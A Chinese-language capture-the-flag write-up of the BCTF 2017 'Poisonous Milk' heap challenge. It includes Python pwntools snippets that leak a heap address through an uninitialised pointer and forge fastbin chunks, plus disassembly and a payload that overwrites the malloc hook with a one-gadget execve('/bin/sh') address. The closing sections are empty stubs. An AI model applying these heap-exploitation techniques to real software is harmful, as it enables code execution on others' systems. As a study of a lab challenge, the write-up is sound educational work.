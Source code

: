 
## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>
![Struct](pmilk_diagram.png)

同时附上链接<br>
[usf poisonous_milk](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)


## Vuln


![vuln0](vuln0.png)
对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>
另外一个是drink函数，可以对其进行利用。<br>

```c++
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>


```python
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```

## exp

### 模仿babyuse
参考 [uafio](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)<br>
在和babyuse一样尝试之后，利用0x55作为伪size，但是在实际运行之后，在malloc中出问题了，分析了一下。

```assembly
.text:000000000008361B                 test    al, 4
.text:000000000008361D                 lea     rcx, dword_3C3B20
.text:0000000000083624                 jz      short loc_83633
.text:0000000000083626                 lea     rax, [rdx-10h]
.text:000000000008362A                 and     rax, 0FFFFFFFFFC000000h
.text:0000000000083630                 mov     rcx, [rax]
```
发现malloc会堆fastbin的地址检查，要是在**0FFFFFFFFFC000000h**之外<br>
![Struct](chk0x04.png)
这里就会出错。orz<br>

### orz

后来问了下博客的dalao，原来，应该是0x56主要可以绕过，是我没有看清楚orz，感谢dalao耐心解答。<br>
因为之前还有个对size的检查。 如果是0x56(0x‭0101 0110‬)<br>
```assembly
mov     rax, [rdx-8]
test    al, 2
jnz     short loc_7F93D30EE63
```
这个就可以直接返回正确了 :)<br>
主要代码如下<br>
```python
payload = chr(0)*3
payload += p64(0)*4
payload += p64(libc_base_addr+0x3C3AF8)     # hook offset
payload += p64(0)
payload += p64(libc_base_addr+0x3C3B78)*2
payload = payload.ljust(0x41, chr(0)) + '\n'
put_milk(payload, "red")
```

### overwrite

首先想到的是能不能覆盖个rop的地址，偏移到输入字符串的位置，但是在覆盖了 hook_malloc 之后<br>
程序立即调用了malloc，而且偏移起来比较麻烦。<br>
```assembly
call    @create_milk_string     ; 申请milk string
mov     r15, rax
mov     edx, 19h
lea     rsi, aInputYourMilkS ; "Input your milk's color: "
lea     rdi, _ZSt4cout  ; std::cout
call    cout
lea     rdi, [rsp+68h+s2]
mov     esi, 0Fh
call    @get_str
mov     edi, 10h        ; unsigned __int64
call    malloc          ;
```
而最简单的是直接覆盖一个 execve("/bin/sh")地址。<br>
用ida搜索text就能找到 "/bin/sh"字符串，然后再找找，就能找到合适的地址执行exece，本机的libc中是0xf0567这个


### house of orange

新姿势

### 另外

新姿势

## Reference

1. http://brieflyx.me/2017/ctf-writeups/bctf-2017-2pwn/
2. https://www.xctf.org.cn/information/4603ec7f0031408acca073b80edb63744f92bacb/
